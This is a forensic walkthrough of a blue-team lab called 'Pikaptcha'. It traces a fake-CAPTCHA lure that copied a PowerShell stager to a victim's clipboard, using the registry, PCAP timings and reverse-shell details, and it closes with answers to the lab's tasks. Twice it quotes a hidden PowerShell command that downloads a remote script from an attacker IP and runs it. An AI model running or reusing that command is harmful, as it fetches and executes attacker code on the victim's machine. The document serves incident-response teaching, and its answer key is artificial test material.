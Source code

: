 # Pikaptcha

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.

## Data

Extracting the files from `Pikaptcha.zip`, we are given:

- `pikaptcha.pcapng`
- `2024-09-23T052209_alert_mssp_action.zip`

## Walkthrough

The first objective is to analyse the registry of the `happy.grunwald` user to identify the command used to download and execute the stager and the time that it executed. From the triage collection Zip file, we are provided the `NTUSER.DAT` and `UsrClass.dat` files which we can open in Registry Explorer.

From this view, we can see an entry within `Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` which tracks the execution of commands via the Run dialog:

![](Pasted%20image%2020250716214816.png)

The entry shows the user executed a PowerShell command at `2024-09-23 05:07:45`:

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"
```

Pivoting to the PCAP, we see two pertinent events between the user's host (`172.17.79.129`) and the attacker's IP at `43.205.115.44`:

```
http and http.request.method==GET and ip.addr==43.205.115.44
```

![](Pasted%20image%2020250716215551.png)

##### (1) HTTP GET to `43.205.115.44`

At `2024-09-23 05:06:16 UTC`, a `HTTP GET` was observed to `http://43.205.115.44/`, rendering the following fake CAPTCHA:

![](Pasted%20image%2020250716215740.png)

##### (2) HTTP GET to `43.205.115.44/office2024install.ps1`

At `2024-09-23 05:07:47 UTC`, a `HTTP GET` was observed to `/office2024install.ps1`, retrieving a PowerShell script:

![](Pasted%20image%2020250716215935.png)

![](Pasted%20image%2020250716220513.png)

From the decoded Base64, we see a `TCPClient` object is defined to connect to `43.205.115.44:6969` as a reverse shell.

Filtering the network capture further, we see the reverse shell was established at `2024-09-23 05:07:48 UTC` and finished at `2024-09-23 05:14:31 UTC` - 403 seconds.

Finally, pivoting back to the initial HTTP GET request that was made, we can see the JavaScript code which copied the PowerShell code to the victim's clipboard:

![](Pasted%20image%2020250716221415.png)

## Tasks

1. It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"
```

2. At what time in UTC did the malicious payload execute?

```
2024-09-23 05:07:45
```

3. The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script? 

```
$ echo 'powershell -e JABjA...AKQA=' | sha256sum
```

```
579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de
```

4. To which port did the reverse shell connect?

Obtained by decoding `office2024install.ps1` from Base64; port was contained within a `TCPClient` object.

```
6969
```

5. For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

Obtained through Wireshark filter of `tcp.port==6969 and ip.addr=43.205.115.44` and computed the time.

```
403
```

6. Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

Extracted HTML from first `HTTP GET` to malicious IP and analysed code, finding `stageClipboard` contained the malicious PowerShell command copied to the victim's clipboard.

```
stageClipboard
```